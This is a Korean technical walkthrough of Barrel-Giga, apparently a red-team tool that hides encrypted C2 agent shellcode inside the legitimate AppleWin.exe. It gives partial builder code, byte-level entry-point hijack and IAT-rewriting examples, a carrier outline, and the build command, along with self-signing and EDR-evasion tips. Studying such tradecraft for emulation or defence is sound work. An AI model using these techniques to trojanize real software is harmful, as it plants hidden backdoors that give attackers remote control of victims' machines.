


# 4. Barrel-Giga 쉘코드 로더

## Shellcode Loader - Barrel Giga

### 코드

[https://github.com/ChoiSG/Operation-Triple-Barrel/tree/main/barrel-giga](https://github.com/ChoiSG/Operation-Triple-Barrel/tree/main/barrel-giga)

### Demo

<figure><figcaption></figcaption></figure>

### 개요

<figure><figcaption></figcaption></figure>

오퍼레이션 더블 배럴 보고서 기준으로, 오퍼레이션 트리플 배럴에서 구상한 악성코드 구조는 위와 같다.

1. **트리거:** FSS-I 소프트웨어의 취약점을 악용한 JSON 페이로드로, AppleWin.exe를 공격자 서버에서 다운받은 뒤 실행한다.
2. **쉘코드 로더:** 백도어인 Struggle이 안에 "내장되어 있는", 정상 프로그램 AppleWin.exe으로 위장한 PE 바이너리. #1번의 트리거가 이 쉘코드 로더를 다운 받은 뒤, 실행한다.
3. **UDRL (User-Defined Reflective Loader):** Reflective DLL Loading 기법을 활용해 메모리상에서 DLL 형태의 Struggle을 다시 한 번 로드하는 코드.

본 페이지에서는 #2번 - 쉘코드 로더와 이를 자동으로 만들어주는 파이프라인은 Barrel-Giga에 대해서 알아보자.

### 쉘코드 로더 (Shellcode Loader)

EDR/NDR 등의 보안 통제가 없는 호스트만 노리는 소수의 APT 그룹들을 제외하면, 현대 윈도우 엔드포인트에서 파워쉘/.NET 기반 인메모리 전용 공격은 갈수록 어려워지고 있다. 결국 돌고 돌아, 전통적인 on-disk 바이너리 드랍으로 돌아가는 추세다.

<figure><figcaption></figcaption></figure>

보고서 34페이지에서 나온 바이너리 역시 온디스크에 드랍되는 형태였다. Struggle 에이전트를 DLL로 컴파일한 뒤 UDRL과 함께 하나의 쉘코드로 만들고, 이를 AppleWin이라는 정상 소프트웨어로 위장한 바이너리 안에 암호화하여 삽입했다. FSS-I 익스플로잇이 성공하면 이 바이너리가 디스크 위에 다운로드 및 실행되며, 내부의 UDRL이 Struggle 백도어를 메모리에 로드하여 실행하는 구조였다.

정상 바이너리에 "백도어"를 만들어 쉘코드를 그 안에다 숨긴 뒤, 바이너리가 시작할 때 정상 코드가 아니라 공격자의 쉘코드를 실행하는 방식이다. 바이너리 백도어는 굉장히 오래된 기법이다. 하지만, 이 "PE파일 백도어" 라는 것은 정확히 어떻게 하는걸까? 2026년 기준, 업계 탑 EDR 솔루션들을 우회할 수 있는 바이너리 백도어 기법들에는 어떤 것들이 있을까?

### Barrel-Giga 개념

```
쉘코드 로더(AppleWin.exe) → 암호화( 쉘코드( UDRL + Struggle Agent ) )
```

Barrel-Giga는 백도어된 정상 바이너리를 자동으로 생성해주는 빌드 파이프라인이다.

백도어 기법으로는 Maldev씬에서 유명한 [@dobin (Dobin Rutishauser)](https://blog.deeb.ch/posts/exe-injection/)의 Cordyceps 기법과, 이를 활용한 [SuperMega](https://github.com/dobin/supermega) 프로젝트를 참고했다.

Barrel-Giga를 통해 백도어된 PE 파일(AppleWin.exe)를 만들고, 이를 실행하면 다음과 같이 추가 악성코드들이 실행된다.

1. PE 안에 암호화되어 삽입된 쉘코드를 복호화
2. 복호화된 쉘코드를 실행 가능한 메모리 영역으로 이동
3. 쉘코드(UDRL + Beacon DLL)가 실행되며 UDRL → Struggle DLL 로딩

Barrel-Giga는 꽤 복잡하지만, 일반적인 쉘코드 로더 빌더들과 다른 점이 있다.

1. PE 구조 정보 사이의 빈 공간 활용
2. Cordyceps 기법 활용

이 두 가지에 대해서 알아보자.

### 1. PE 메타데이터 사이의 빈 공간 활용

전통적인 방식의 PE 백도어는 섹션을 추가하거나, 리소스 섹션을 사용하거나, PE 파일 바로 뒤에 페이로드를 붙이는 방식을 많이 사용한다.

Barrel-Giga의 경우 호스트 PE 파일의 쓰이지 않은 공간을 재활용해 특정 구간 구간들 사이의 빈 공간을 찾아서 쉘코드와 캐리어 코드를 (랜덤하게) 나누어 배치한다. 예를 들자면 Relocation 테이블, exception 디렉토리, CFG 테이블, export 함수 등등, PE 메나데이터 사이사이의 패딩이나 dead code zone 등을 찾아낸 뒤, 그 사이에 필요한 데이터를 집어넣는 형식이다.

### 2. Cordyceps 기법

Cordyceps 기법은 [@dobin (Dobin Rutishauser)](https://blog.deeb.ch/posts/exe-injection/) 이 만든, 파일 백도어에서 쉘코드를 실행 할 때 Windows API를 별도의 PEB Walking 없이, 이미 PE 파일 IAT 내에 존재하는 함수들을 정상적으로 재사용하는 기법이다.

기법에 대해서 더 알아보기 전에, Cordyceps 기법에서 자주 나오는 용어들을 한번 정리한다:

* **숙주 (Host)**: 쉘코드가 삽입되는 정상 PE 파일. 본 프로젝트에서는 보고서에 나온 [AppleWin.exe](https://github.com/AppleWin/AppleWin)을 사용한다.
* **페이로드 (Payload)**: 암호화된 상태로 숙주안에 삽입되는 쉘코드. 본 프로젝트에서는 이전 페이지에서 Barrel Kit으로 만든 UDRL + Adaptix C2 DLL 파일을 하나로 묶은 데이터다.
* **캐리어 (Carrier):**: 페이로드를 찾아내 복호화하고 Destination에 옮긴 뒤, 실행하는 PIC 형태의 소형 Loader. 숙주 PE의 `.text` 섹션에 배치된다. (C2 에이전트를 실행하는 UDRL을 실행하는 숙주 바이너리안의 또 다른 소형 Loader...)
* **Destination**: 복호화된 쉘코드가 쓰여지고 실행되는 `.text` 섹션 내 메모리 영역

#### **IAT Reuse - PEB Walk 없이 API 호출**

쉘코드는 PE 파일 구조를 띄고 있지 않은, 메모리에 올라간 PIC (Position Independent Code)다. 그렇기 때문에 IAT (Import Address Table)도 없다. 따라서 Win32 API를 호출하려면 PEB Walk(ing) 기법으로 API 주소를 직접 찾아야 한다. 프로세스의 PEB를 메모리상에서 찾고, `PEB` → `Ldr` → `InLoadOrderModuleList`를 순회하면서 `kernel32.dll`을 찾은 다음, export table에서 사용하고 싶은 함수 주소를 리졸브하는 방식이다. 쉘코드에서는 필수적인 기법이지만, 그만큼 잘 알려져 있고 시그니처가 많이 되어 있다.

Cordyceps는 PEB Walking을 하지 않고, 호스트 PE 파일에 이미 정의된 IAT를 그대로 빌려 쓴다. 동충하초가 숙주의 몸에서 그대로 자라나듯이(으악), 해당 PE 파일의 코드가 정상적으로 IAT의 함수를 호출하는 것과 똑같은 방식으로 API를 호출한다. Cordyceps의 매력은 "정상적"이라는 것이다. PE 파일내의 코드가 PE 파일 내의 IAT 함수를 호출해 사용하는 건, 정상적인 프로그램이라면 당연히 하는 일이다. 비정상적일게 없다.

PE 파일에서 코드가 IAT에 정의된 함수를 호출할 때, 실제로는 IAT 엔트리에 저장된 함수 포인터를 RIP-relative 간접 호출로 읽어서 실행한다.

```
; 일반적인 IAT 호출은 디스어셈블러에서 보면 이렇게 보이지만:
call    KERNEL32!VirtualProtect

; 실제 머신 코드를 까보면 이렇게 생겼다: 
FF 15 XX XX XX XX       ; call qword ptr [RIP + displacement]
```

이 displacement는 현재 명령어가 끝나는 주소(RIP)에서 `.rdata`(혹은 `.idata`)에 있는 IAT 엔트리까지의 상대적 거리다. `FF 15` 명령어는 6바이트이므로, `displacement = IAT 엔트리 RVA - (명령어 RVA + 6)`이 된다. PE의 모든 섹션은 하나의 이미지로 함께 로드되고, ASLR은 이미지 전체를 통째로 랜덤화하기 때문에 섹션 간의 상대적 거리는 변하지 않는다. 즉, `.text` 어디에 코드를 넣든 IAT 엔트리까지의 displacement만 정확히 계산해주면, ASLR과 무관하게 호스트의 IAT를 그대로 빌려서 API를 호출할 수 있게 된다.

결과적으로 Cordyceps로 만든 "캐리어"는:&#x20;

* PEB walk가 필요 없다! → 탐지 시그니처 제거
* `GetProcAddress` 호출이 필요 없다! → 의심스러운 API resolve 패턴 제거
* 호스트 PE가 이미 import하는 API를, 정상적인 코드마냥 그대로 (재)사용할 수 있다.

결과적으로 Cordyceps 기법이 들어간 PE 파일 (호스트/숙주 파일)은:

* 섹션 수, 섹션 이름, 섹션 크기가 원본과 동일하다
* PE 헤더, data directory, import/export 테이블이 정상이다
* 파일 크기가 원본과 굉장히 비슷하다
* 코드 서명은 깨지겠지만, Self-Signed 서명만 달아주면 나름 그럴듯해보인다 (물론 WDAC이나 Applocker는 패스 안되겠지만, 솔직히 우리나라에서 금융권/군/정보기관 제외하고 그정도까지 하는 곳이 별로 없다...)

### Barrel-Giga 작동 방식

#### 1. Host Layout 분석

가장 먼저 숙주(AppleWin.exe)의 PE 구조를 모두 분석한다.

```python
# planner.py - discover_host_layout()
PE의 모든 섹션을 파싱하고, 건드리면 안 되는 영역을 exclusion으로 마킹한다

건드리면 안 되는 것들:
- Data directory 영역 (import, export, exception, reloc, TLS, ...)
- Import 힌트 이름, IAT 엔트리
- Relocation 대상 주소
- Unwind info
- 엔트리포인트 함수 범위
- Export 함수 범위
- CFG 함수 테이블
- TLS 콜백 배열과 함수 범위
```

이 exclusion들을 전부 합쳐서 "어디에 WRITE 할 수 있는지"를 나타내는 목록을 만든다. AppleWin.exe의 경우, `.text`와 `.rdata` 섹션 곳곳에 수백 KB의 쓸 수 있는 공간이 남아있다. 이 공간에 페이로드와 캐리어 코드를 배치한다.

#### 2. Placement - 어디에 뭘 넣을것인가?

Barrel-Giga는 `split_image` 배치 모드를 사용한다. 세 가지를 각각 다른 위치에 배치해야 한다:

| 구성 요소                        | 위치                   | 이유                 |
| ---------------------------- | -------------------- | ------------------ |
| Encrypted payload (암호화된 쉘코드) | `.rdata` (read-only) | 정적 데이터처럼 보이게       |
| Destination (복호화 실행 영역)      | `.text` (executable) | 복호화 후 바로 실행할 수 있도록 |
| Carrier (로더 코드)              | `.text` (executable) | 코드 영역에 존재해야 실행 가능  |

실제 AppleWin 빌드에서의 배치 결과:

```
.text  섹션 (0x1000 ~ 0x169548)
  ├── [0x10000] destination: 129,378 bytes (복호화된 쉘코드가 여기로)
  ├── [0x163F80] carrier: 842 bytes (로더 코드)
  └── 나머지: AppleWin 원본 코드

.rdata 섹션 (0x16A000 ~ 0x1F5674)
  └── [0x1A7C00] payload: 129,378 bytes (XOR 인코딩된 쉘코드)
```

Placement planner는 각 candidate interval을 스코어링해서 최적의 위치를 선택한다. 패딩 바이트가 많은 곳(기존 dead code)을 우선 선택해서, 실제 실행되는 코드를 최소한으로 밀어낸다.

#### 3. Execution - 쉘코드를 실행하자

쉘코드를 PE 안에 숨겼으면, 이제 PE가 실행될 때 원래 코드가 아니라 캐리어 코드가 먼저 실행되도록 만들어야 한다. 가장 단순한 방법은 PE 헤더의 `AddressOfEntryPoint`를 캐리어 코드 주소로 바꾸는 것이다. 하지만 이러면 원본과 엔트리포인트가 달라지고, 너무 많이 사용된 기법인지라 바로 걸린다.

따라서 Barrel-Giga는 `function_backdoor` 기법을 사용한다. **엔트리포인트 RVA는 그대로 유지하되, 첫 번째 `call`/`jmp` 명령어를 캐리어로 향하는 `jmp`로 교체한다.**

AppleWin의 엔트리포인트 함수는 18바이트짜리 짧은 함수다:

```
0x12FE68:  엔트리포인트 시작 (AddressOfEntryPoint, 변경 없음)
0x12FE6C:  call 0x1300F4       ← 원본: 5바이트 (E8 83 02 00 00)
                               ← 패치: jmp carrier (E9 AF 3F 03 00)
```

원래 `call 0x1300F4`이던 5바이트가 `jmp 0x163F80` (캐리어 코드 시작 주소)으로 교체된다. `E8` (call) → `E9` (jmp), 주소만 바꾸면 된다. PE 헤더의 엔트리포인트는 `0x12FE68`로 동일하고, RUNTIME\_FUNCTION 메타데이터도 그대로다.

```python
# invocation.py:144-195 - find_backdoor_site()
for instruction in instructions:
    if (
        instruction.size != 5
        or bytes(instruction.bytes[:1]) not in {b"\xE8", b"\xE9"}
        or not instruction.operands
        or instruction.operands[0].type != capstone.x86.X86_OP_IMM
    ):
        continue
    rva = int(instruction.address) - image_base
    candidates.append(BackdoorSite(rva=rva, size=instruction.size, ...))

return min(candidates, key=lambda item: item.rva)
```

패치 할 곳을 찾았으면, `replacement()`가 캐리어 주소까지의 새 displacement를 계산해서 `E9` + rel32 바이트를 만든다.

```python
# invocation.py:43-49 - BackdoorSite.replacement()
def replacement(self, image_base: int, carrier_entry_rva: int) -> tuple[bytes, int]:
    displacement = rel32(
        image_base + self.rva,
        self.size, 
        image_base + carrier_entry_rva,
    )
    return b"\xE9" + struct.pack("<i", displacement), displacement

# fixups.py:30-36 - rel32()
def rel32(instruction_va, instruction_size, target_va):
    return target_va - (instruction_va + instruction_size)
```

#### 4. Cordyceps - IAT Fixup & Repair

위에서 설명한 Cordyceps 기법을 실제로 적용하는 단계. 캐리어 코드가 컴파일되면, 각 API 호출 위치에 placeholder가 들어가 있다. Barrel-Giga는 캐리어가 배치될 RVA와 호스트 IAT 엔트리의 RVA를 알고 있으니, 각 placeholder를 정확한 `call [RIP + displacement]`로 패치한다.

```
캐리어 코드 RVA 0x163FB0에서 VirtualProtect를 호출한다면:
  호스트 IAT의 VirtualProtect 엔트리 RVA: 0x16A508
  displacement = 0x16A508 - (0x163FB0 + 6) = 0x6552
  → FF 15 52 65 00 00   (call qword ptr [RIP+0x6552])
```

호스트가 이미 import하는 API(`VirtualProtect`, `Sleep`, `ExitProcess`)는 이렇게 바로 사용하면 된다. 문제는 호스트가 import하지 않는 API가 필요할 때다. 예를 들어, 캐리어는 `FlushInstructionCache` 라는 WinAPI를 사용하는데, 숙주인 AppleWin은 `FlushInstructionCache`를 사용하지 않기 때문에 IAT에 해당 함수가 없다.

이 경우 IAT repair라는 작업을 한다. 각 import의 `IMAGE_IMPORT_BY_NAME` 구조체에는 함수 이름이 ASCII 문자열로 들어있는데, 호스트가 import하지만 쉘코드에게는 필요 없는 API의 이름을 원하는 API 이름으로 덮어씌우는 것이다.

예를 들어, AppleWin은 `FlushInstructionCache`를 import하지 않지만 `DeleteCriticalSection`(21자)은 import한다. 캐리어는 `DeleteCriticalSection`을 사용하지 않으므로, 이 이름을 `FlushInstructionCache`(21자)로 덮어쓴다. Windows 로더가 PE를 로드할 때 이 이름으로 API를 리졸브하므로, 런타임에는 `FlushInstructionCache`의 실제 주소가 해당 IAT 엔트리에 채워진다.

먼저 `plan_iat_repairs()`가 같은 DLL의 import 중에서 이름 길이가 충분하고, 캐리어가 사용하지 않는 후보를 찾는다.

```python
# injectables.py:97-116 — plan_iat_repairs()
for dll, name in required:
    slots = working.get(dll_lower, [])
    if any(slot.name.lower() == name_lower for slot in slots):
        continue    # 이미 호스트가 import하고 있으면 패스

    # 같은 DLL에서 이름이 충분히 길고, 캐리어가 안 쓰는 import를 후보로
    candidates = [
        (len(slot.name), slot.name.lower(), slot.name_offset, index, slot)
        for index, slot in enumerate(slots)
        if slot.name.lower() not in protected[dll_lower]
        and len(slot.name) >= len(name)
    ]
    _, _, _, index, old_slot = sorted(candidates)[0]  # 가장 짧은 이름 선택
```

후보를 찾았으면 `repair_import_name()`이 실제 바이트를 덮어쓴다.

```python
# image.py:158-168 — repair_import_name()
old_name = old_item.name.decode("ascii", errors="strict")

# 새 이름 + 남는 공간은 null 패딩
replacement = name.encode("ascii") + b"\0" * (len(old_name) - len(name))
self.pe.set_bytes_at_offset(name_offset, replacement)
```

#### 5. Carrier 코드

캐리어 코드 자체는 842바이트로 간결하다.

```c
// carrier.c - sg_carrier_run()
static DWORD sg_carrier_run(void)
{
    // 1. destination 영역(.text 내)을 VirtualProtect로 RW로 변경
    destination = sg_memory_allocate(payload_len, &memory_state);

    // 2. .rdata에 있는 인코딩된 페이로드를 XOR 복호화하면서 destination에 복사
    sg_decode_copy(destination, sg_payload_address(), payload_len);

    // 3. destination을 원래 권한(RX)으로 복원 + FlushInstructionCache
    sg_memory_finalize(destination, payload_len, memory_state);

    // 4. destination에서 쉘코드 실행 (= Barrel Kit PIC 시작)
    sg_execute(destination, &context);
}
```

캐리어가 실행되며 메모리 권한을 변경하고, 쉘코드를 XOR 복호화 한 뒤 destination에 복사하고, destination은 `.text` 섹션에 있으니 원래 RX 권한으로 복원한 뒤, `FlushInstructionCache`을 사용해 쉘코드를 실행한다.

#### 그 외

그 외 페이로드 (쉘코드)를 맨 처음 input 파일로 받으면 XOR stream 인코딩을 하고, 맨 마지막 백도어된 PE 파일에 Self-Signing 코드 서명을 하는 부분도 있지만, 그렇게까지 중요하지는 않아서 패스한다.

### 정리

백엔드에서는 복잡한 코드가 돌고 있지만, 오퍼레이터는 아래의 cli 한줄만 치면 알아서 백도어된 PE파일을 만들 수 있게 된다.

```bash
py barrel-giga.py build --input agent.x64.bin --injectable AppleWin-x64.exe --output applewin-barrel.exe
```

결과물인 `applewin-barrel.exe`는:

* PE 구조가 원본 AppleWin과 동일 (섹션 수, 크기, 이름)
* 엔트리포인트 RVA 동일
* Authenticode 서명 + 타임스탬프 포함
* 실행하면 Barrel Kit PIC → UDRL → Struggle Agent 로딩
* 원본 AppleWin 코드는 실행되지 않음 (캐리어가 하이재킹)
